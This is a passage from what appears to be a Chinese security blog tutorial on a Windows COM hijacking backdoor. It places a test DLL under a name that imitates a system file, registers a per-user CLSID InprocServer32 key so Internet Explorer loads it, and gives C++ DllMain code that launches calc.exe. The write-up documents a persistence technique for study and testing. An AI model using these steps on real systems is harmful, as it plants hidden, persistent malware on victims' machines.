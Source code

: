 **1、新建文件**

在`%APPDATA%\Microsoft\Installer\{BCDE0395-E52F-467C-8E3D-C4579291692E}\`下放入测试dll，重命名为`api-ms-win-downlevel-[4char-random]-l1-1-0._dl`

**注：**

测试dll下载地址：https://github.com/3gstudent/test/blob/master/calc.dll

重命名为`api-ms-win-downlevel-1x86-l1-1-0._dl`

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-8-4/1-1.png)

**2、修改注册表**

注册表位置：`HKCU\Software\Classes\CLSID\`

创建项`{b5f8350b-0548-48b1-a6ee-88bd00b4a5e7}`

创建子项`InprocServer32`

Default的键值为测试dll的绝对路径：

`C:\Users\a\AppData\Roaming\Microsoft\Installer\{BCDE0395-E52F-467C-8E3D-C4579291692E}\api-ms-win-downlevel-1x86-l1-1-0._dl`

创建键值： `ThreadingModel` `REG_SZ` `Apartment`


注册表内容如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-8-4/1-2.png)

**3、测试**

启动iexplore.exe，触发后门，多次启动calc.exe，最终导致系统死机

启动过程多次调用实例CAccPropServicesClass()，因此导致启动多个calc.exe，最终系统死机

**4、优化**

可以对dll加一个互斥量，防止重复加载，只启动一次calc.exe

c++代码为：

```
#pragma comment(linker,"/OPT:nowin98")
BOOL TestMutex()
{

	HANDLE hMutex = CreateMutex(NULL, false, "myself");  
	if (GetLastError() == ERROR_ALREADY_EXISTS)
	{
		CloseHandle(hMutex);
		return 0;  
	}
	return 1;
}
BOOL APIENTRY DllMain( HANDLE hModule, 
                       DWORD  ul_reason_for_call, 
                       LPVOID lpReserved
					 )
{
    switch (ul_reason_for_call)
	{
		case DLL_PROCESS_ATTACH:
			if(TestMutex()==0)
				return TRUE;
			WinExec("calc.exe",SW_SHOWNORMAL);
		case DLL_THREAD_ATTACH:
		case DLL_THREAD_DETACH:
```